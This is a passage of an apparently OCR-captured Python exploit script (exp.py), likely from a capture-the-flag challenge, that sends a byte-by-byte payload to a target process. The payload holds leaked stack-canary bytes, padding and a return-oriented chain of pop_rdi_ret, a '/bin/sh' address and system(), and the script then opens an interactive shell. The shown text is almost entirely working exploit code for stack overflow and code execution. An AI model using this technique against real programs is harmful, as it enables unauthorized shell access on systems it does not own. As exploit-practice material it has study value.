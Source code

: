 ```python exp.py
           canary_byte[1], # canary 7
           canary_byte[0], # canary 8
           "0", # padding1
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # padding2
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # padding3
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
            "0",#padding
           str(pop_rdi_ret & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 8 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 16 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 24 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 32 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 40 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 48 ) & 0xff), # pop_rdi_ret
            str( (pop_rdi_ret >> 56 ) & 0xff), # pop_rdi_ret
           str(bin_sh & 0xff), # bin_sh
            str( (bin_sh >> 8 ) & 0xff), # bin_sh
            str( (bin_sh >> 16 ) & 0xff), # bin_sh
            str( (bin_sh >> 24 ) & 0xff), # bin_sh
            str( (bin_sh >> 32 ) & 0xff), # bin_sh
            str( (bin_sh >> 40 ) & 0xff), # bin_sh
            str( (bin_sh >> 48 ) & 0xff), # bin_sh
            str( (bin_sh >> 56 ) & 0xff), # bin_sh
           str(system_addr & 0xff), # system_addr
            str( (system_addr >> 8 ) & 0xff), # system_addr
            str( (system_addr >> 16 ) & 0xff), # system_addr
            str( (system_addr >> 24 ) & 0xff), # system_addr
            str( (system_addr >> 32 ) & 0xff), # system_addr
            str( (system_addr >> 40 ) & 0xff), # system_addr
            str( (system_addr >> 48 ) & 0xff), # system_addr
            str( (system_addr >> 56 ) & 0xff), # system_addr
           ]

payloads[0] = str(len(payloads) + 16)
# sending payload
for payload in payloads:
    print r.recvuntil(": ")
    log.success("sending: "+payload)
    r.send(payload+"\n")

r.interactive()

```
